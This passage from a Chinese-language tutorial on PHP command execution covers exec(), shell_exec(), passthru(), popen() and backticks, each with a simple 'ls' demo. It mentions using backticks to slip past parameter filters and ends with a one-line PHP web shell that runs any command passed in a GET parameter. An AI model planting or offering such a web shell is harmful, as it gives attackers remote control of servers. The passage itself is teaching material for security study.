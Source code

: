 **`exec()` 函数可以执行系统命令，但它不会直接输出结果，而是将执行的结果保存到数组中**

Demo：将 `exec()` 函数执行的结果导入 result 数组

```bash
exec( 'ls' , $result );
print_r($result);        //Array ( [0] => index.php )
```

### 3.4 shell\_exec()

**`shell_exec()` 函数可以执行系统命令，但不会直接输出执行的结果，而是返回一个字符串类型的变量来存储系统命令的执行结果**

Demo：执行 `ls` 命令

```bash
echo shell_exec('ls');    //index.php
```

### 3.5 passthru()

**`passthru()` 函数可以执行系统命令并将执行结果输出到页面中**

与 `system()` 函数不同的是，它支持二进制的数据，使用时直接在参数中传递字符串类型的系统命令即可

Demo：执行 `ls` 命令

```bash
passthru('ls');    //index.php
```

### 3.6 popen()

**`popen()` 函数可以执行系统命令，但不会输出执行的结果，而是返回一个资源类型的变量用来存储系统命令的执行结果**

故需要配合 `fread()` 函数来读取命令的执行结果

Demo：执行 `ls` 命令

```bash
$result = popen('ls', 'r');    //参数 1:执行 ls 命令 参数 2:字符串类型
echo fread($result, 100);      //参数 1:上面生成的资源 参数 2:读取 100 个字节
```

### 3.7 反引号\`\`

**反引号可以执行系统命令但不会输出结果，而是返回一个字符串类型的变量用来存储系统命令的执行结果**

可单独使用，也可配合其他命令执行函数使用来绕过参数中的过滤条件

Demo：执行 `ls` 命令

```bash
echo `ls`;    //index.php
```

所以，就可以通过这个写出几乎最短的 Webshell 了

```bash
<?=`$_GET[1]`;
```
